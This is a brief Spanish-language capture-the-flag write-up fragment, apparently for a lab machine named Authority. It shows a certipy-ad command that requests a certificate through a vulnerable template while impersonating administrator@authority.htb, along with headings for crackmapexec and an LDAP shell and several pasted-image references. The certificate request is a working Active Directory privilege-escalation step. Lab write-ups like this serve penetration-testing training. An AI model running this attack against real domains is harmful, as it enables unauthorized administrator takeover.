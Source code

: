 ### crackmapexec
verificamos que hemos creado correctamente el usuario y la contraseña 
![[Pasted image 20240327003629.png]]

### certipy-ad
```python
certipy-ad req -username gamuke$ -password 'gamuke123' -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb -debug

# NOTA: si tienes problemas con el reloj ejecutar> sudo ntpdate "IP-DC"
```
![[Pasted image 20240327011111.png]]

### -ldap-shell
de esta maner
![[Pasted image 20240327012331.png]]
